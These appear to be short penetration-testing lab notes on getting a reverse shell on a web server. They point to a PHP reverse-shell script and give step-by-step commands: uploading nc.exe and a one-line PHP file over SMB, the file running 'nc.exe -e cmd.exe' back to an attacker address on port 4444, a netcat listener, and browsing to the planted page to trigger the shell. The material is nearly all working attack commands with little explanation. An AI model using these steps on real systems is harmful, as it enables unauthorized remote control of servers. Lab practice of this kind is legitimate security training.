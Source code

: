 # Option 1
Upload a php file to a php web server and initiate a reverse shell
https://github.com/pentestmonkey/php-reverse-shell

note: $ip is the IP adddress of the Attack machine


# Option 2

upload file nc.exe from /usr/share/windows-resources/binaries/nc.exe to web root folder on Victim machine via smb  
smb: \> put nc.exe

Create file rev.php  
gedit rev.php  
*\<?php  
system('nc.exe -e cmd.exe 10.10.14.25 4444')  
?>*

upload file rev.php to web root folder on Victim machine via smb  
smb: \> put rev.php

─# nc -nvlp 4444                                
listening on [any] 4444 ...

Access file rev.php on web
http://10.129.188.154:8808/rev.php

Back to nc screen, we should have shell now.



